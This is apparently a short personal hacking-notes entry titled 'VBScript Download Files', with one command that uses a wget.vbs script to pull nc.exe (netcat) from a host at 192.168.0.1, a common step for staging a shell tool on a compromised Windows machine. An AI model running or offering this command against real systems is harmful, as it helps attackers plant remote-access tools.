 # VBScript Download Files

```
cscript wget.vbs http://192.168.0.1/nc.exe nc.exe
```

# References
- [20221003151230](/zet/20221003151230/README.md) VBScript
- ~/kb/hacking/tricks/vbscript-wget-hack.md

Tags:
    #assorted
